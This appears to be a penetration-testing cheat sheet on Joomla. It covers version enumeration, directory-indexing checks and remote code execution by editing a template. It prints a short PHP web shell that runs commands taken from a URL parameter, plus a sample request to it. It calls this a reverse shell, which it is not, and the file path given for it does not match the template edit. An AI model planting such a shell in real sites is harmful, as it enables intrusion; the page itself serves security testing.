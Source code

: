 ## Version Enumeration

- **Via `joomla.xml` file:**  
Check this file to get the Joomla version and list of core files:
```bash
/administrator/manifests/files/joomla.xml
```

- **Via other XML files:**  
Some plugin manifests like:
```bash
/plugins/system/cache/cache.xml
```

- **Meta Generator tag:**  
Check page source for:
```html
<meta name="generator" content="Joomla! - Open Source Content Management" />
```


## Remote Code Execution via Template Editing

If you have administrator access, or can exploit weak ACL (Access Control List) configurations, you can inject PHP code into template files.

Example: modify a template file `index.php` to include a reverse shell:
1. Navigate to Joomla administrator panel.
2. Go to Templates → Templates → Edit your active template.
3. Edit `index.php`, add the following PHP reverse shell code:
```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```
![](../../Images/joomla_template_preview.png)
Uploaded shell access:
```bash
http://target.com/images/uploads/shell.php?cmd=id
```


## Directory Indexing Vulnerabilities
Misconfigured web servers may allow directory listing on web-accessible folders.

#### Impact

- Exposure of sensitive files such as backups, configuration files (`configuration.php`), plugins, and template files.
- Information leakage without requiring brute forcing or direct exploitation.

#### Testing Directory Indexing

- Manually browse to common Joomla folders and observe HTTP responses.
- Look for HTTP 200 OK responses displaying directory contents.

Example directories to test:

```bash
/administrator/manifests/files/
/templates/
/images/
/plugins/
```





